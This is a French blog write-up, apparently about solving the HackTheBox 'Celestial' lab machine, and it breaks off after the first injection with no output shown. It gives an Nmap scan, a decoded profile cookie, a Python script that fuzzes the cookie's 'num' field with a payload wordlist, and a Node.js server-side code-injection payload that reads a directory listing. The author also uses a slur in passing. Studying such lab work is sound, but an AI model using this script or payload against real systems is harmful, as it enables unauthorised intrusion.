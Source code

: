 # Solution du CTF Celestial de HackTheBox

Back to the root(s)
-------------------

En attendant la venue d'un nouveau CTF basé sur Windows sur [HackTheBox](https://www.hackthebox.eu/), je me suis penché sur différentes machines sous Linux.  

*Celestial* était l'une de celles-ci.  

2 + 2 = 22
----------

J'ai commencé par le classique scan de ports Nmap, ici un peu plus poussé via l'utilisation de plus de scripts :  

```plain
nmap -T5 --script safe -sC -sV -p- -A -oA scan 10.10.10.85
```

La seule chose à retenir c'est la présence du port 3000 ouvert ainsi que de nombreux ports non filtrés, ce qui peut être utile pour la suite :  

```plain
Not shown: 63272 closed ports, 2262 filtered ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-comments-displayer: Couldn't find any comments.
|_http-date: Wed, 22 Aug 2018 09:49:39 GMT; -4s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers:
|   X-Powered-By: Express
|   Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Wed, 22 Aug 2018 10:04:44 GMT; HttpOnly
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 12
|   ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
|   Date: Wed, 22 Aug 2018 09:49:44 GMT
|   Connection: close
```

On voit clairement la mention de *Nodejs*. Au vu du numéro de port peu banal pour un service web j'ai d'abord pensé qu'il s'agissait d'un service de débogage à distance, j'ai donc lancé le module *Metasploit* *multi/misc/nodejs\_v8\_debugger* mais ceci n'a mené nul part, la réponse n'était clairement pas celle attendue par *Metasploit* je faisais fausse route.  

Je pointe donc mon browser sur ce port 3000 et j'obtiens une erreur HTTP. Un reload de la page plus tard et on a le message *Hey Dummy 2 + 2 is 22*.  

Il n'y a que [Javascript pour sortir cela bien sûr](https://gfycat.com/fr/gifs/detail/offensivefarflungbluefish) (oh no! It's retarded!) et c'est indice suffisant pour ce qui va venir.  

Si le message vient après un reload c'est parce qu'un cookie a été défini par le site. On le voit d'ailleurs dans le scan Nmap et il peut se décoder via base64 ce qui nous donne un dictionnaire JSON :  

```python
{
  "username":"Dummy",
  "country":"Idk Probably Somewhere Dumb",
  "city":"Lametown",
  "num":"2"
}
```

Attaquer les valeurs du dictionnaire n'est pas vraiment compliqué pour qui maîtrise bien Python (ou un autre vrai langage de programmation héhéhé).  

On part du même dictionnaire que l'on modifie dans une boucle que l'on sérialise en JSON pour ensuite encoder en base64 la chaîne obtenue transmise alors dans le cookie.  

Ma remière tentative a consisté à bruteforcer le champ *username* sans succès.  

Comme on est en face de Javascript il s'agit probablement d'une faille d'injection de code, auquel cas l'injection est à faire dans le champ *num*

Pour attaquer sans trop de difficultés ce champ j'ai écrit le script suivant, il suffit alors de lui passer un fichier avec les payloads :  

```python
import sys
import json
from urllib.parse import quote
from base64 import b64encode

import requests
from requests.exceptions import RequestException

data = {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
KEY = "num"
sess = requests.session()

wordlist = sys.argv[1]
with open(wordlist) as fd:
    for line in fd:
        word = line.strip()
        data["num"] = word

        try:
            raw = json.dumps(data).encode()
        except UnicodeEncodeError:
            continue
        else:
            raw = quote(b64encode(raw))
            try:
                response = sess.get(
                    "http://10.10.10.85:3000/",
                    headers={"cookie": "profile={}".format(raw)}
                )
            except RequestException:
                continue
            else:
                print(response.status_code, word)
                print(response.content)
```

Pour les payloads intéressants on peut se baser [sur cette page](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html) et commencer ainsi par l'injection suivante :  

```javascript
;res.end(require('fs').readdirSync('.').toString())
```

Ce qui nous retourne le contenu suivant :  


*Published August 25 2018 at 18:19*